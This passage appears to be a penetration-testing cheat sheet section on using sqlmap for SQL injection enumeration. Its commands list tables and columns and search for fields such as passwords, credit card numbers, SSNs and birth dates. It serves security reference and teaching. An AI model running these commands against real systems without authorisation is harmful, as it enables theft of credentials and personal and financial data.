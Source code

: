 # 04 - Tables and Columns

Search Tag(s): #sqlmap #enumeration-and-discovery

## 4.1 - Tables Enumeration

Search particular keywords of database, tables and columns.

```
$ sqlmap -u "<URL>" --random-agent --search -D <database> -C user,pass,username,password
```

Retrieve relation (tables).

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables
```

Count number of tables.

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables --count
```

Search for specific tables.

```
$ sqlmap -u "<URL>" --search -T credit_cards,users
```

## 4.2 - Columns Enumeration

```
$ sqlmap -u "<URL>" --random-agent -D <database> -T users --columns
```

Retrieve SQL statements that was executed on the DBMS.

```
$ sqlmap -u "<URL>" --random-agent --statements
```

Retrieve SQL comments (to sensitive data).

```
$ sqlmap -u "<URL>" --random-agent --comments
```

Search for specific tables.

```
$ sqlmap -u "<URL>" --search -C email,contact,number,mobile,mobile_alt,phone,telephone,fax,user,username,uname,pass,password,passwd,pwd,ssn,cc,ccn,ip,userip,lastip,address,name,fullname,sex,gender,nationality,state,country,postcode,dob
```
